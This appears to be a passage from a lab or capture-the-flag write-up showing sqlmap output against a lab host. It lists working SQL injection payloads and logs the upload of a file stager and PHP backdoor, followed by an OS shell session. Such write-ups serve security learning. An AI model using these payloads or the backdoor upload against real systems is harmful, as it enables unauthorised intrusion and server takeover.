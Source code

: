 ## sqlmap shell execution

```
.
.
.
.
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 8977=8977

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 7706 FROM (SELECT(SLEEP(5)))oYVb)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-7768 UNION ALL SELECT NULL,NULL,CONCAT(0x71706b6271,0x5646594f627348794e7343506e4161726c744c4c786c446844656c6b4b50416c4b614954576f7043,0x71717a6271),NULL,NULL,NULL,NULL-- fJzz
---
. 
.
.
.
[00:20:23] [INFO] retrieved web server absolute paths: '/images/'
[00:20:23] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[00:20:25] [WARNING] unable to upload the file stager on '/var/www/'
[00:20:25] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[00:20:25] [WARNING] expect junk characters inside the file as a leftover from UNION query
[00:20:25] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[00:20:26] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[00:20:28] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpuatkw.php
[00:20:28] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbbwjo.php
[00:20:28] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> ls
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
1234.php
ayax
b4nn3d
connection.php
css
dining-bar.php
fonts
footer.php
getfileayax.php
images
index.php
js
mine.php
nav.php
obfuscated-phpshell.php
phpmyadmin
room.php
roomobj.php
rooms-suites.php
```
